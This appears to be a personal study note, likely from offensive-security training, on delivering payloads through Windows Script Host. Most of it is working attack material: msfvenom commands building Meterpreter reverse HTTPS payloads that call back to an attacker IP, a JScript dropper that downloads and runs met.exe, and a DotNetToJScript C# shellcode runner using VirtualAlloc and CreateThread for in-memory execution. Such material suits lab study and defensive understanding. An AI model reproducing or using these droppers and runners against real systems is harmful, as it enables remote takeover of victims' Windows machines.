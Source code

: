 ```yaml
---
creation date: December 21st 2022
last modified date: December 21st 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Windows Script Host]]  
___

## Description:  
Look for default apps in windows settings, if the default application for .js files is Windows-Based Script host (should be by default), then our code should run automatically after a double-click.

### Jscript
use msfvenom to generate a 64-bit Meterpreter reverse HTTPS executable named met.exe:
```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o met.exe
```
Now create the dropper code (save as a .js):
```
var url = "http://192.168.119.120/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{ 
	var Stream = WScript.CreateObject('ADODB.Stream');

	Stream.Open();
	Stream.Type = 1; // adTypeBinary
	Stream.Write(Object.ResponseBody);
	Stream.Position = 0;

	Stream.SaveToFile("met.exe", 2);
	Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```
After saving this code as a .js file, all we need to do is double-click it to get a 64-bit shell from the victim’s machine to our awaiting multi/handler listener.

### Using Jscript and C sharp
To run our payload completely from memory

Download [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) and open it in visual studio
open TestClass.cs under the ExampleAssembly project. We’ll compile this as a .dll assembly, which we’ll execute in Jscript.
```
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;
[ComVisible(true)]
public class TestClass
{
	public TestClass()
	 {
		 MessageBox.Show("Test", "Test", MessageBoxButtons.OK, 
		MessageBoxIcon.Exclamation);
	 }
	 public void RunProcess(string path)
	 {
	 Process.Start(path);
	 }
}
```
Jscript will eventually execute the content of the TestClass method, which is inside the TestClass class (`MessageBox.Show`).
To test this solution, switch from debug to release mode and compile the entire solution (Build solutions). Place NDesk.Options.dll and ExampleAssembly.dll next to DotNetToJscript.exe and run the following command to create your .js file:
```
C:\Tools> DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js
```
Double click the .js file to run it, you should receive a popup that says "test".

We now need to get this project working with our shellcode.

Generate a 64-bit Meterpreter staged payload in csharp format and set up our multi/handler with the same payload.
```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f csharp
```

We must modify the ExampleAssembly project in DotNetToJscript to execute the shellcode runner. Add the needed namespaces at the beginning of the project with the "using" keyword.

```
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
[ComVisible(true)]
public class TestClass
{
 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
 static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
 uint flAllocationType, uint flProtect);
 [DllImport("kernel32.dll")]
 static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 
 IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr 
lpThreadId);
 [DllImport("kernel32.dll")]
 static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

public TestClass()
{
 byte[] buf = new byte[626] {
 0xfc,0x48,0x83,0xe4,0xf0,0xe8...
 int size = buf.Length;
 IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
 Marshal.Copy(buf, 0, addr, size);
 IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, 
IntPtr.Zero);
 WaitForSingleObject(hThread, 0xFFFFFFFF);
}
	 public void RunProcess(string path)
	 {
	 Process.Start(path);
	 }
}
```
Before compiling this project, we must set the CPU architecture to x64 since we are using 64-bit shellcode. This is done through the CPU drop down menu, where we open the Configuration Manager. In the Configuration Manager, we choose <New…> from the Platform drop down menu and accept the new platform as x64.

Place NDesk.Options.dll and ExampleAssembly.dll next to DotNetToJscript.exe and run the following command to create your .js file:
```
C:\Tools> DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
```
With our multi/handler set up, we can double-click the Jscript file. After a brief pause, we should receive the staged reverse Meterpreter shell.

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 21st 2022 (05:46 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
